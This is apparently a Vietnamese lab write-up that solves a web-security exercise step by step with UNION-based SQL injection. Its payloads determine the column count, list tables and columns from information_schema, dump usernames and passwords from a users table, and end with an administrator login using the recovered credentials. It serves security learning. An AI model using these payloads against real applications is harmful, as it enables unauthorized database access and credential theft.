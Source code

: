 ## SQL injection attack, listing the database contents on non-Oracle databases

1. Để list thông tin các table tồn tại trong database ta truy xuất đến bảng được khởi tạo tự động ``information_schema`` chứa các thông tin như table name,table schema, type,column name,...

2. Xác định số cột trong câu truy vấn mặc định và cột có kiểu string.
Payload: 
- ```' UNION SELECT 'test', 'test' --```

![Img1](\asset/../img/determine_col_num.png)

-> Xác định có 2 cột và cả 2 cột đều có kiểu dữ liệu string.

3. Sử dụng UNION attack kết hợp SELECT từ bảng ``information_schema``. 
Payload: 
- ```' UNION SELECT 'test', table_name from information_schema.tables--```

4. Trong danh sách các bảng hiện lên, nhận thấy có bảng tên ``users_ueevqq`` khả nghi.

![Img2](\asset/../img/tables_list.png)

5. Sử dụng UNION attack kết hợp SELECT bảng ``information_schema`` từ bảng ``users_ueevqq`` để hiển thị danh sách các cột trong bảng. Nhận thấy thông tin tài khoản ``administrator`` cần tìm.
Payload: 
- ```' UNION SELECT 'test', column_name from information_schema.columns where table_name='users_ueevqq'--```

![Img3](\asset/../img/col_list.png)

6. Nhận được tên 2 cột ``username_kquarw`` và ``password_udbjlv``. Dùng payload dưới để lấy thông tin của user
- ```' UNION SELECT username_kquarw, password_udbjlv FROM users_ueevqq--```

![Img4](\asset/../img/accounts_list.png)

7. Đăng nhập với ``administrator::js3rmaijcbegg7dg0svd``